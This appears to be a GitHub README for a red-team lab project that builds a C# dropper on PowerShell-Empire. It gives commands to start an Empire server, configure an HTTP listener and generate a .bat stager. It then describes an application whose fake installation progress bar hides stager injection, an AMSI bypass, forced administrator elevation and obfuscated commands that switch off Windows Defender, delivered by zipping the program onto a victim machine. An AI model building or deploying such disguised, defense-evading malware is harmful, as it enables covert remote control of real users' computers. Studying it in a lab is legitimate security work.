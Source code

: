 ```
     ______          __             __    __         __
   / ____/___ ___  / /_  ___  ____/ /___/ /__  ____/ /
  / __/ / __ `__ \/ __ \/ _ \/ __  / __  / _ \/ __  / 
 / /___/ / / / / / /_/ /  __/ /_/ / /_/ /  __/ /_/ /  
/_____/_/ /_/ /_/_.___/\___/\__,_/\__,_/\___/\__,_/   

                            `````````
                         ``````.--::///+
                     ````-+sydmmmNNNNNNN
                   ``./ymmNNNNNNNNNNNNNN
                 ``-ymmNNNNNNNNNNNNNNNNN
               ```ommmmNNNNNNNNNNNNNNNNN
              ``.ydmNNNNNNNNNNNNNNNNNNNN
             ```odmmNNNNNNNNNNNNNNNNNNNN
            ```/hmmmNNNNNNNNNNNNNNNNMNNN
           ````+hmmmNNNNNNNNNNNNNNNNNMMN
          ````..ymmmNNNNNNNNNNNNNNNNNNNN
          ````:.+so+//:---.......----::-
         `````.`````````....----:///++++
        ``````.-/osy+////:::---...-dNNNN
        ````:sdyyydy`         ```:mNNNNM
       ````-hmmdhdmm:`      ``.+hNNNNNNM
       ```.odNNmdmmNNo````.:+yNNNNNNNNNN
       ```-sNNNmdh/dNNhhdNNNNNNNNNNNNNNN
       ```-hNNNmNo::mNNNNNNNNNNNNNNNNNNN
       ```-hNNmdNo--/dNNNNNNNNNNNNNNNNNN
      ````:dNmmdmd-:+NNNNNNNNNNNNNNNNNNm
      ```/hNNmmddmd+mNNNNNNNNNNNNNNds++o
     ``/dNNNNNmmmmmmmNNNNNNNNNNNmdoosydd
     `sNNNNdyydNNNNmmmmmmNNNNNmyoymNNNNN
     :NNmmmdso++dNNNNmmNNNNNdhymNNNNNNNN
     -NmdmmNNdsyohNNNNmmNNNNNNNNNNNNNNNN
     `sdhmmNNNNdyhdNNNNNNNNNNNNNNNNNNNNN
       /yhmNNmmNNNNNNNNNNNNNNNNNNNNNNmhh
        `+yhmmNNNNNNNNNNNNNNNNNNNNNNmh+:
          `./dmmmmNNNNNNNNNNNNNNNNmmd.
            `ommmmmNNNNNNNmNmNNNNmmd:
             :dmmmmNNNNNmh../oyhhhy:
             `sdmmmmNNNmmh/++-.+oh.
              `/dmmmmmmmmdo-:/ossd:
                `/ohhdmmmmmmdddddmh/
                   `-/osyhdddddhyo:
                        ``.----.`
    ______                _              ___                    __ 
   / ____/___ ___  ____  (_)_______     /   | ____ ____  ____  / /_
  / __/ / __ `__ \/ __ \/ / ___/ _ \   / /| |/ __ `/ _ \/ __ \/ __/
 / /___/ / / / / / /_/ / / /  /  __/  / ___ / /_/ /  __/ / / / /_  
/_____/_/ /_/ /_/ .___/_/_/   \___/  /_/  |_\__, /\___/_/ /_/\__/  
               /_/                         /____/                  
```

## Techno & Tools

- C#
- Python
- PowerShell-Empire
- https://github.com/danielbohannon/Invoke-Obfuscation

## Process

## Setup Environment

- You will need 2 VMs
    - Windows (Victim)
    - Kali Linux (Attacker)

Configure C2

### 1. Start PowerShell-Empire

<aside>
📌 Open 2  terminal and in each one enter these command (one in each)

</aside>

```bash
sudo powershell-empire server
sudo powershell-empire client
```

### 2. Configure Listener

```bash
uselistner http
set Name <Name>
set Host <Your IP>
set Port <Port>
execute
```

### 3. Configure Stager

<aside>
📌 This will generate .bat file

</aside>

```bash
usestager windows/laucher_bat
set listener <listener_name>
execute
```

## Coding Application

<aside>
💡 Make Progress Bar that will make it seem, like it is installing something but in the background it will inject the stager + AMSI Bypass (The patch is only applied for one PowerShell session after that it goes back to default)

</aside>

- I added an app-manifest that requires the application to be executed as administrator, so I would already have elevated privilege
- I also added some PowerShell command to deactivate some functionalities of windows defender, to be able to execute the script (They will be obfuscated)
- Now Your question might be why you need an AMSI bypass if you will disable windows defender. The thing is when you some PowerShell command AMSI will block it’s execution because it might be a malicious command even if it is obfuscated

## Obfuscation

<aside>
📌 Follow the instruction in this repository: https://github.com/danielbohannon/Invoke-Obfuscation, to install Invoke-Obfuscation on you attacking machine (Do it in a new terminal)

</aside>

You can encode any PowerShell command that you add in the Agent Process class

## Delivery

```bash
dotnet build
```

- Testing
    - Zip the program
    - Put it on the victim machine
    - unzip it
    - execute program
        - Will have to keep my listener running on my PowerShell machine
